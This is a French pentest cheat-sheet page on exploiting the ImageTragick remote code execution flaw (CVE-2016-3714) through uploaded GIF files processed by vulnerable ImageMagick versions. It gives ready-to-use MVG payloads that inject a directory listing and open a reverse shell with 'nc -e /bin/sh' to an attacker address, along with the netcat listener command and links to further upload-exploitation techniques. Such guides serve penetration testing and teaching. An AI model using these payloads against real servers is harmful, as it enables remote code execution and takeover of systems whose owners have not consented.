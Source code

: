 # GIF

**Facteur de risque** : RCE

**Extensions** : `.gif`

**Type MIME** : `image/gif`

**Description** : 

Le **Graphics Interchange Format** ou **GIF**, est un format d'image.

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="150">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire (**ls.gif**):
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**nc.gif**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- ImageTragick : 
  - https://imagetragick.com

## Todo

- [Remote Code Execution in the Avatars - Dodd Security](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)

- Beating getimagesize() : [Unrestricted File Upload | OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

- Upload .gif file to be resized - image library flaw exploited

- [GIF/Javascript Polyglots: Abusing GIFs, tags, and MIME types for evil - Web Hacking - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/gif-javascript-polyglots-abusing-gifs-tags-and-mime-types-for-evil/5088)

- [ThinkFu &rsaquo; GIF/Javascript Polyglots](http://web.archive.org/web/20191216134147/http://www.thinkfu.com/blog/gifjavascript-polyglots)
